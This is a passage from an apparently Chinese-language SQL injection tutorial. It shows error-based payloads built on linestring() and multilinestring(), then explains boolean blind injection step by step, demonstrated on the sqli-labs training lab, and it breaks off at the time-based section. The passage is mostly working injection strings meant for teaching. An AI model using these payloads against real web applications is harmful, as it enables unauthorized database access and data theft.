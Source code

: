 **示例**

```sql
?id=1' and linestring((select * from(select * from(select user())a)b)) --+
```

##### multilinestring()

**注入使用格式**

```sql
multilinestring((select * from(select * from(注入语句)a)b))
```

**示例**

```sql
?id=1' and multilinestring((select * from(select * from(select user())a)b)) --+
```

### 3. 布尔盲注

#### 概念

> 布尔盲注一般适用于页面没有回显字段(不支持联合查询)，且web页面返回True 或者 false，构造SQL语句，利用and，or等关键字来其后的语句 `true` 、 `false`使web页面返回true或者false，从而达到注入的目的来获取信息

#### 常用函数

- **length()**：返回字符串的长度；
- **substr()**：截取字符串；
- **left()**：从左至右截取字符串；
- **ascii()**：返回字符的 Ascii 码值；
- **regexp()**：正则表达式；
- **ord()**：返回字符串第一个字符的 Ascii 码值；
- **mid()**：从文本字段中提取字符； 

**示例**

PS：此处使用 sqli-labs 第8关进行演示。

**获取数据库名称长度**

```
?id=1' and length(database())=7 --+
?id=1' and length(database())=8 --+
```

获取数据库名称

```
?id=1' and (left(database(), 1) = 's' ) --+
?id=1' and (substr(database(), 2, 1) = 'e' ) --+
?id=1' and (substr(database(), 3, 1) = 'c' ) --+
?id=1' and (substr(database(), 4, 1) = 'u' ) --+
...
```

### 4. 基于时间的布尔盲注
